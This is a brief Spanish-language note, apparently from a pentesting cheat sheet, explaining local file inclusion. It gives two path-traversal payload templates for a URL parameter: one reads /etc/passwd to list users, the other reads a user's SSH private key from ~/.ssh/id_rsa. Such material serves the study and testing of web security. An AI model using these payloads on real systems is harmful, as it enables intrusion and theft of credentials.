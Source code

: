 Cuando dentro de la URL como parámetro se llama a un archivo, estamos ante un local file inclusion.

Si retrocedemos hasta la carpeta raíz del sistema podremos leer el contenido de diferentes archivos que serán de valor en la explotación

# Ver usuarios exixstentes
```HTTP
<"URL">=../../../../../../../../../../../../../etc/passwd
```
# Ves clave SSH
```HTTP
<"URL">=../../../../../../../../../../../../../home/<"Usuario">/.ssh/id_rsa
```